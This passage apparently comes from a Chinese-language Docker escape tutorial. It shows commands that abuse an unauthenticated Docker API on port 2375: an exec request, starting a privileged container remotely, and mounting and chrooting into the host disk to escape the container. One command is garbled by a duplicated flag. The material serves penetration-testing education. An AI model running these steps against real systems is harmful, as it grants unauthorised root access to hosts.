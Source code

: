 ```
POST /exec/962fee39c29a2c9d5ea984b55673a7823aa06b6187eaf4be279f25af6cecad1f/start HTTP/1.1`
`Host: 192.168.198.138:2375`
`Content-Type: application/json`
`Content-Length: 36`
`{`
`"Detach":false,`
`"Tty":false`
`}
```

![image-20231008151350156](Docker逃逸漏洞案例.assets/image-20231008151350156.png)

然后发送就会得到结果，至此成功获得该docker主机的rce权限，但无法逃逸到宿主机中。

### **利用方法2 远程连接，新建特权容器，逃逸到宿主机中**

因为docker 有远程连接命令，由于2375端口暴露，可未授权访问，所以现在可以在我们的主机上通过远程方式连接doker ，然后以特权模式启动一个docker容器，从而达到逃逸到宿主机的情况

`docker -H tcp://192.168.198.138:2375 ps`
`docker -H docker -H tcp://192.168.241.142:2375 run -it --privileged alpine bin/sh`



进入容器后，使用fdisk -l命令查看磁盘文件`fdisk -l`



分区大小得知到宿主机的磁盘为/dev/dm-0，这里可以使用上面我们刚刚特权模式逃逸的命令将该磁盘挂载到目录中`mkdir /tide/`
`mount /dev/dm-0 /tide/`
`chroot /tide/`



成功逃逸到宿主机

## **挂载Docker.sock**
